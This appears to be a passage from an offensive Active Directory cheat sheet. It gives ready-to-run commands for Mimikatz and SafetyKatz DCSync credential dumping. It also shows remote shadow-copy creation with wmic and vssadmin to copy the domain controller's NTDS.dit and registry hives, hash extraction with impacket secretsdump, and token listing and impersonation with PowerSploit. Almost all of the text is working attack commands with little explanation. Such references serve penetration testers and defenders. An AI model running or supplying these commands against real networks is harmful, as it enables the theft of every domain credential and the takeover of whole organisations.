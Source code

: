 #### Mimikatz DCSync attack everything
```
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
```

#### Safetykatz.exe
```
SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER>" "exit"
```

## Shadowcopy
#### Create shadowcopy of the C:\ drive
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

#### Copy the NTDS.dit, SYSTEM and SECURITY hives
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

#### Mount the C:\temp drive
```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\<DC FQDN>\c$\temp -PSProvider FileSystem
```

#### Extract credentials
```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

## Token manipulation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

#### List all tokens on a machine
```
Invoke-TokenManipulation –ShowAll
```

#### List all unique, usable tokens on the machine
```
Invoke-TokenManipulation -Enumerate
```

#### Start a new process with token of a specific user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```
